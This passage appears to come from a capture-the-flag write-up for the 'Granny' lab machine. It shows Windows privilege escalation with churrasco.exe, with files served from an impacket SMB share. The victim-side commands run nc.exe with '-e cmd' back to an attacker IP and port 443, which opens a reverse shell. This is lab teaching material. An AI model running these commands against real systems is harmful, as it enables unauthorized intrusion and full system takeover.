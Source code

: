 > **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/churrasco.exe .
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
erase churrasco.exe
copy \\10.10.14.56\smbFolder\churrasco.exe .\churrasco.exe
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
.\churrasco.exe -d "\\10.10.14.56\smbFolder\nc.exe -e cmd 10.10.14.56 443"
# :( ?
.\churrasco.exe -d "whoami"
```

> **Attacker Machine**:

```bash
tcpdump -i tun0 icmp -n
```

> **Victime Machine**:

```cmd
.\churrasco.exe -d "ping 10.10.14.56"
# :)

.\churrasco.exe -d "\\10.10.14.56\smbFolder\nc.exe -e cmd 10.10.14.56 443"
.\churrasco.exe "\\10.10.14.56\smbFolder\nc.exe -e cmd 10.10.14.56 443"
# :)
```

<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
